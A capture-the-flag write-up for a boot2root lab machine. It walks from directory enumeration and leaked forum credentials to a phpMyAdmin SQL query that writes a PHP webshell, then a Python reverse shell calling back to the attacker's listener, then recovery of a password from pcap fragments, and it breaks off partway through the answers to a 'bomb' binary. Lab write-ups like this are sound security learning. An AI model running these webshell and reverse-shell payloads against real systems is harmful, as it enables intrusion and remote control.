 # boot2root

## Getting code execution
I didnt had nmap installed at first so i went on checking common ports:
- 21 ftp
- 22 ssh
- 80 http
- 443 https

Could not login as anonymous to the ftp server.  
http returned a page with no info what so ever so i fired up gobuster and runned it:
```
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.56.102
/forum                (Status: 403) [Size: 287]
/fonts                (Status: 301) [Size: 316] [--> http://192.168.56.102/fonts/]
/server-status        (Status: 403) [Size: 295]
$ gobuster dir -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://192.168.56.102
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.102/forum/]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.102/webmail/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.102/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
```

The /forum is a `my little forum` forum, we get many dummy post and what seems like a snippet of the machine syslog.  
As usual we get many unsucessful ssh login attempt etc... but one user managed to log in: lmezard (and admin).  
Right above we see an unsucessfull login attempt as user `!q\]Ej?*5K5cy*AJ` since the post originated from lmezard and is title `Probleme login ?` we deduced it's related to this unsucessfull login attempt.  
My guess is that the user inputed his password instead of his login and well it is the case since we are able to login with `lmezard/!q\]Ej?*5K5cy*AJ`.  
Going into the `my little forum` lmezard account we get an email wich we can use to login to the webmail server (same password) `laurie@borntosec.net/!q\]Ej?*5K5cy*AJ`  
On the server mail we get credentials wich we can use to login into the phpmyadmin website: `root/Fg-'kKXBj87E:aJ$`  
With phpmyadmin we can do an sql request to create a php file to get a webshell (into a reverse shell (didnt manage to get the reverse shell directly).  
Go to phpmyadmin, select `forum_db` database, click on sql, paste the following payload and click `Go`.  
```
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

phpmyadmin directory seems readonly so i choose this directory that clearly seems writeable by it's content
Then we can access `https://192.168.56.102/forum/templates_c/webshell.php` and input command.  
A quick `python -c "print 'A'" confirmed me that python was installed and so we could do a reverse shell by pasting the following command and listening on port 8000 on our end:
```
$ export RHOST="192.168.56.1";export RPORT=8000;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```
$ nc -lnvp 8000
```

As expected we are www-data and have now a shell.  
// The command execution part is now finished (there is a file in /home directory (/home/LOOKATME/password) wich contains lmezard creds (not working in ssh tho)

## Getting laurie

After upgrade to lmezard account on the server we are presented with a tar archive in the home directory wich contains many pcap file with very few bytes but on of the file contains 30+kbyte, we will use wireshark to analyze it.  
Seems like it's it's actually many C files which are splitted in every line, trying to compile the huge file we are missing 7 getmeX function.  
There are all splitted across the directory we can find them by searching for getmeX, catting the file, search for file + 1 and get the return statement, put it inside the big file, do this 7 times (or with a script) compile and run:  
```
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We have now a new combination of user / password: `laurie/330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

## Getting thor

Binary called bomb, let's decompile it (using gdb snif).  
1. Public speaking is very easy.
2. 1 2 6 24 120 720
3. 2 b 755
4. 9
5. o05km1
6. 4 

- All numbers must be inferior to 6 and must be different
